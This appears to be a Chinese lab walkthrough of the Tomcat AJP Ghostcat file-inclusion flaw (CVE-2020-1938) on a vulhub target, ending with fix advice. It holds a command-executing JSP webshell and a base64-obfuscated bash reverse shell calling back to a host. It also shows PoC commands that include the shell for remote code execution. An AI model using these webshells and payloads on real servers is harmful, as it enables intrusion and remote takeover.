 # Aapache Tomcat AJP-文件包含漏洞（CVE-2020-1938）

### 0x00 前言

Ghostcat（幽灵猫） 是由长亭科技安全研究员发现的存在于 Tomcat 中的安全漏洞，由于 Tomcat AJP 协议设计上存在缺陷，攻击者通过 Tomcat AJP Connector 可以读取或包含 Tomcat 上所有 webapp 目录下的任意文件，例如可以读取 webapp 配置文件或源代码。此外在目标应用有文件上传功能的情况下，配合文件包含的利用还可以达到远程代码执行的危害。

影响版本：

```
Apache Tomcat 6
Apache Tomcat 7 < 7.0.100
Apache Tomcat 8 < 8.5.51
Apache Tomcat 9 < 9.0.31
```

### 0x01 环境搭建

这里使用vulhub搭建靶场环境`tomcat/CVE-2020-1938`

![image-20230410153328550](Untitled.assets/image-20230410153328550.png)

### 0x02 复现步骤

1、准备POC`https://github.com/YDHCUI/CNVD-2020-10487-Tomcat-Ajp-lfi/blob/master/CNVD-2020-10487-Tomcat-Ajp-lfi.py`

2、POC需要python2环境启动

```shell
python2 tomcat_AJP_Arbitrary_file_read_include.py 目标IP或HOST -p 目标端口 -f 文件路径
```

![image-20230410160311933](Untitled.assets/image-20230410160311933.png)

3、由于靶场没有文件上传漏洞利用点，我们手动为靶场上传shell文件，内容如下：

```jsp
# 有回显版本
<%
java.io.InputStream in = Runtime.getRuntime().exec("需要执行的命令").getInputStream();
int a = -1;
byte[] b = new byte[2048];
out.print("<pre>");
while((a=in.read(b))!=-1){
out.println(new String(b));
}
out.print("</pre>");
%>


# 无回显版本
<%
Runtime.getRuntime().exec("bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEyLjE1Mi81NTU1IDA+JjE=}|{base64,-d}|{bash,-i}")
%>
```

```shell
docker cp shell.txt 29b32:/usr/local/tomcat/webapps/ROOT/
```

![image-20230410161431354](Untitled.assets/image-20230410161431354.png)

4、利用脚本进行反弹shell

修改poc，添加后缀`.jsp`

![image-20230410161748863](Untitled.assets/image-20230410161748863.png)

```shell
python2 tomcat_AJP_Arbitrary_file_read_include.py 192.168.12.130 -p 8009 -f /WEB-INF/shell.txt
```

![image-20230410163038478](Untitled.assets/image-20230410163038478.png)

### 0x03 修复建议

1、关闭AJP 协议的端口

2、更新官方最新补丁